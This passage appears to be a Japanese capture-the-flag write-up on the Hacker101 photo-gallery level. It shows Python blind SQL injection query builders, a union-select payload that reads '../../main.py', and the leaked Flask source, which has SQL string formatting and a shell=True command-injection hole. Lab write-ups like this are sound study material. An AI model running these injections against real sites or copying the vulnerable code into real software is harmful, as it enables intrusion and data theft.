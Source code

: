 ```txt
[-] exploit finished
Utterly adorable:files/adorable.jpg:1
Purrfect:files/purrfect.jpg:1
Invisible:b92cc0e3169????????036b499674:1
```
```python
database = "level5"
table = "albums"
column1 = "title"

def create_length_query(md,times):
    query = " AND if(length((select concat("+column1+") from " + database + "." + table + " limit " +str(times) + ",1)) >= " + str(md) + ",1=1,1=3)#"
    #print(query)
    return query

def create_2tansaku_query(md,i,times):
    query = " AND if(ascii(substr((select concat("+column1+") from " + database + "." + table + " limit " +str(times) +",1)," +str(i) + ",1)) >= " + str(md) + ",1=1,1=3)#"
    #print(query)
    return query
```
```txt
[-] exploit finished
Kittens
```
#### flag0 (Union query)
ファイル名をSQLでidから取り出していることが考えられるので、`0 union select '../../main.py'`として有効なファイル名を強引に渡せばよいらしい！  
`0 union select 1`でInternal Server Errorとなっていたのは、ファイル名として1が取り出され、それをpythonでreadしようとしてerrorが発生したからである。  
ヒントから`uwsgi-nginx-flask-docker`を使っているとわかり、main.pyを使っていることとそのパスを推測できるらしい……  
https://github.com/tiangolo/uwsgi-nginx-flask-docker  
```txt
from flask import Flask, abort, redirect, request, Response import base64, json, MySQLdb, os, re, subprocess app = Flask(__name__) home = '''
Magical Image Gallery
$ALBUMS$ ''' viewAlbum = '''
$TITLE$
$GALLERY$ ''' def getDb(): return MySQLdb.connect(host="localhost", user="root", password="", db="level5") def sanitize(data): return data.replace('&', '&').replace('<', '<').replace('>', '>').replace('"', '"') @app.route('/') def index(): cur = getDb().cursor() cur.execute('SELECT id, title FROM albums') albums = list(cur.fetchall()) rep = '' for id, title in albums: rep += '
%s
\n' % sanitize(title) rep += '
' cur.execute('SELECT id, title, filename FROM photos WHERE parent=%s LIMIT 3', (id, )) fns = [] for pid, ptitle, pfn in cur.fetchall(): rep += '

%s
' % (pid, sanitize(ptitle)) fns.append(pfn) rep += 'Space used: ' + subprocess.check_output('du -ch %s || exit 0' % ' '.join('files/' + fn for fn in fns), shell=True, stderr=subprocess.STDOUT).strip().rsplit('\n', 1)[-1] + '' rep += '
\n' return home.replace('$ALBUMS$', rep) @app.route('/fetch') def fetch(): cur = getDb().cursor() if cur.execute('SELECT filename FROM photos WHERE id=%s' % request.args['id']) == 0: abort(404) # It's dangerous to go alone, take this: # ^FLAG^59540711ea6225ea87c7e????????????b3275666ec6b5$FLAG$ return file('./%s' % cur.fetchone()[0].replace('..', ''), 'rb').read() if __name__ == "__main__": app.run(host='0.0.0.0', port=80)
```
### flag1 (blind Injection)
```python
database = "level5"
table = "photos"
column1 = "title"
column2 = "filename"
```